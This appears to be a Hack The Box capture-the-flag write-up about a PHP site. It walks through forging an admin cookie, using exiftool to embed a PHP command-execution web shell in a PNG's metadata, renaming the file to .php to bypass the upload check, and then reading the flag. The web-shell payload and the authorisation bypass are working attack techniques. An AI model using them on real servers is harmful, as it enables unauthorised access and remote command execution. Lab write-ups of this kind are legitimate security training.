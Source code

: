 **RCE via image file upload**

No download of source this time - it is nginx with PHP

![image](https://user-images.githubusercontent.com/87831546/144930279-55abf556-7f2d-47f4-b241-24e1ab821edb.png)

If we create an account it says we don't have permissions to edit our profile

![image](https://user-images.githubusercontent.com/87831546/144930297-fa800b42-f342-44f6-b8a1-d14892d63c1c.png)

Create an account called admin, then base64 decode cookie and change to
```
{"username":"admin","approved":true}
```

Now can upload files - says we can only upload png, it checks the content of the file and to make sure it is a png image, but doesn't care about the file extension.

![image](https://user-images.githubusercontent.com/87831546/144930343-d524eac4-bbef-4187-b75b-fd6e719f8f17.png)

We know the server runs php, so we can get code execution via embedding php code in the png

![image](https://user-images.githubusercontent.com/87831546/144930408-646514f2-e27e-4082-8209-ec8ed9e9fc57.png)

https://thecyberjedi.com/php-shell-in-a-jpeg-aka-froghopper/

```
exiftool -DocumentName="<h1>Testing
<?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" cabin.png
```

![image](https://user-images.githubusercontent.com/87831546/144930442-fd12dbd9-7fb1-4b5f-a0fd-3b3fa97697be.png)

Then rename cabin.png to cabin.php (as the server doesn't care about extensions) or could do cabin.php.png - https://sushant747.gitbooks.io/total-oscp-guide/content/bypass_image_upload.html  

Then go to the image and see where it is uploaded with inspect element
![image](https://user-images.githubusercontent.com/87831546/144930477-4228e9b2-05a4-4443-9b46-bce1cd5b2025.png)

And we have code execution!
![image](https://user-images.githubusercontent.com/87831546/144930496-4f3ffccf-240f-4ad5-846e-f8f62214ba7f.png)

```
HTB{br4k3_au7hs_g3t_5h3lls}
```
